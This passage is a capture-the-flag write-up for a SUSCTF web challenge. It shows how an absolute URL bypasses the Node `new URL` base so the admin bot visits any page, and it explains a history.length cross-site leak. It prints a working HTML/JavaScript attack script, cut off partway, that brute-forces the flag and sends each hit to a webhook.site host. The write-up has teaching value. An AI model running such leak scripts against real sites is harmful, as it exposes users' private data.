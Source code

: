 The key is this line: `let url = new URL(path, site)`. At first glance, you might think you can only provide pages on the site, so you need to find XSS on this challenge. But that's not the case. If you look carefully at the [documentation](https://nodejs.org/api/url.html#new-urlinput-base), you will know:

> input: The absolute or relative input URL to parse. If input is relative, then base is required. If input is absolute, the base is ignored

If you provide an absolute URL, the base will be ignored, so you can directly provide any page for the admin bot to visit.

Next is to find out how to perform XS leak. I used the [history.length](https://xsleaks.dev/docs/attacks/navigations/) trick in the end. The principle is very simple. Even if you go to another website under the same window, your `history.length` will not be cleared, meaning that if I go to website A first, then to B, and then back to A, when I access `history.length`, it will be 3.

So we can use `var win = window.open` to open the note search page, and then after a certain amount of time, use `win.location = '...'` to redirect this window back to our own website, so we can use `win.history.length` to access this value and know whether the note search was successful.

The script I used to leak looks like this:

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="robots" content="noindex">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
</head>

<body>
    <script>
      var flag = 'SUSCTF{'
      function send(msg) {
        fetch('https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b?msg=' + encodeURIComponent(msg))
      }
      function trying(keyword) {
        return new Promise(resolve => {
          var win = window.open('http://123.60.29.171:10001/search?q=' + keyword)
          setTimeout(() => {
            win.location = 'http://e050-220-133-126-220.ngrok.io/non.html'
            setTimeout(() => {
              if (win.history.length === 3) {
                send('success:' + keyword)
              } else {
                //send('fail:' + keyword)
              }
              win.close();
            }, 1000)
          }, 1500)
        })
      }

      async function run() {
        send('start')
        // }abcdefghijklmnopqrstuvwxyz0123456789_
        // }abcdefghijklmnopqrs
        // 
        let chars = '_abcdefghijklmnopqrstuv'.split('')
        //let chars = '}wxyz0123456789_'.split('')
        for(let char of chars) {
          const temp = flag + char
          trying(temp)
```